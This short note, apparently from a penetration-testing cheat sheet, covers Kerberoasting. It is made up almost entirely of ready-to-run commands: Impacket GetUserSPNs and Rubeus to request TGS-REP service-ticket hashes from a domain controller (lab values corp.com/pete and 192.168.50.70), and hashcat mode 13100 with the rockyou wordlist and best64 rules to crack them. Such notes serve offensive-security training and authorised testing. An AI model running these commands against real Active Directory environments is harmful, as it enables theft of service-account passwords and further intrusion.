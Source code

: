 # Get TGS-REP hash

```Impacket
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 -outputfile kerberoast.hash corp.com/pete  
```
  

```Rubeus
.\Rubeus.exe kerberoast /outfile:kerberoast.hash
```

# Crack Hash

```bash
sudo hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```